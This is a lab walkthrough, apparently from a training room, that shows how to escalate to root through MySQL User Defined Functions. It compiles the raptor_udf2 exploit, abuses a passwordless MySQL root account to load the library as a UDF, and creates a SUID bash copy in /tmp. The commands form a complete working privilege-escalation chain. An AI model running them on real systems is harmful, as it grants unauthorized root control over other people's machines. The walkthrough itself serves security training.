 # User Defined functions (UDFs)
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC   gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc   `

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`  

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

`use mysql;   create table foo(line blob);   insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash   exit`